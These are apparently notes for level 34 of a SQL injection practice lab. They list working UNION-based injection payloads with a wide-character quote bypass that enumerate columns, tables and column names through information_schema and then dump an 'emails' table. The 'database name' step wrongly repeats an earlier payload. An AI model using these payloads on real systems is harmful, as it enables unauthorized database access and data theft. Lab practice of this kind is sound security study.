

# 第三十四关
判断是否存在注入：汉' and 1=1 -- qwe

判断字段数：汉'order by 2-- qwe

判断显错位 ：汉'union select 1,2 -- qwe

判断库名：汉'union select 1,2 -- qwe

判断表名：汉'union select 1,table_name from
information_schema.tables where table_schema=database() -- qwe

判断列名：汉'union select 1,column_name from information_schema.columns where table_schema=0x7365637572697479 and table_name=0x656d61696c73 -- qwe

判断数据：汉'union select 1,id from emails-- qwe